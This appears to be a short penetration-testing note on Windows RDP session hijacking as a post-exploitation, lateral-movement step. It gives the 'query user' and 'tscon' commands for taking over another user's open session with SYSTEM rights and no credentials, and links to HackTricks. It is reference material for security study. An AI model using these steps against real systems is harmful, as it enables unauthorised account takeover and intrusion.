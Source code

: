 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - lateral-movement
  - living-off-the-land
  - "#T1021-001"
  - network-protocols
  - rdp
  - windows
---
```

# Living off the Land

## Session Stealing

TODO: Fill the rest of conditions

> [!IMPORTANT] Conditions
> - With `NT AUTHORITY\SYSTEM` privileges you can access any **open RDP** session by any user without the credentials.


List active user sessions

```
C:\> query user
```

Steal user session to authenticate the machine remotely

```
C:\> tscon <id> /dest:<session_name>
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Windows/Host/0xA - Internal Reconnaissance/Users/Manual/Living off the Land|Enumeration and Discovery: Users]]

### Hacktricks

- [Hacktricks: Pentesting RDP](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-rdp.html)

### Hacking Articles

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)